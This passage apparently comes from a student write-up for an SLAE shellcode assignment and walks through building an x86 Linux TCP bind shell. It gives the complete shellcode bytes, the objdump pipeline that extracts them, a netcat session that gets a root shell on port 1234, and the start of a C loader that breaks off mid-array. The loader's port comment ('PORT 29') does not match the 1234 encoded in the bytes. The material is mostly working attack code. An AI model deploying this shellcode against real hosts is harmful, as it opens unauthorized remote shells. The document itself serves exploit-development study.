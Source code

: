 <pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># netstat -antp | grep 1234 
tcp 0 0 0.0.0.0:1234 0.0.0.0:* LISTEN 1193/./bind
</pre>

Now if we use **netcat** we will be able to connect to the target machine at port **1234** as seen below

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">~ nc -vvv 192.168.200.13 1234
  Connection to 192.168.200.13 port 1234 [tcp/search-agent] succeeded! 
  whoami root 
  netstat -antp | grep 1234 
  tcp 0 0 192.168.200.13:50914 192.168.200.4:1234 ESTABLISHED 812/s
</pre>


Furthermore, the shellcode will be created using the following command

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
<span style="color:#cd0000;"><b>root@kali</b></span>:<span style="color:#a7a7f3;"><b>~/Documents/SLAE/Assignment1</b></span># objdump -d ./bind|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g' "\x31\xc0\x31\xdb\x31\xd2\x31\xf6\xb0\x66\xb3\x01\x52\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc6\xb0\x66\xfe\xc3\x52\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\x52\x56\x89\xe1\x83\xc3\x02\xb0\x66\xcd\x80\xb0\x66\xfe\xc3\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb0\x3f\xcd\x80\x41\x80\xf9\x02\x7e\xf6\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
</pre>

<p style="text-align:justify;">
The following code utilizes the shellcode created from the assembly code above. The program initializes a custom port number to the target host.
</p>

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <netinet/in.h>

#define PORT 29 // 0xd204 --> \x04\xd2

int main(int argc, char* argv[]) {

unsigned char shellcode[] = \
"\x31\xc0\x31\xdb\x31\xd2\x31\xf6\xb0"
"\x66\xb3\x01\x52\x53\x6a\x02\x89\xe1"
"\xcd\x80\x89\xc6\xb0\x66\xfe\xc3\x52"
"\x66\x68\x04\xd2\x66\x53\x89\xe1\x6a"
"\x10\x51\x56\x89\xe1\xcd\x80\x52\x56"
"\x89\xe1\x83\xc3\x02\xb0\x66\xcd\x80"
"\xb0\x66\xfe\xc3\x52\x52\x56\x89\xe1"
"\xcd\x80\x89\xc3\x31\xc9\xb0\x3f\xcd"
"\x80\x41\x80\xf9\x02\x7e\xf6\x31\xc0"
"\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62"
"\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89"
```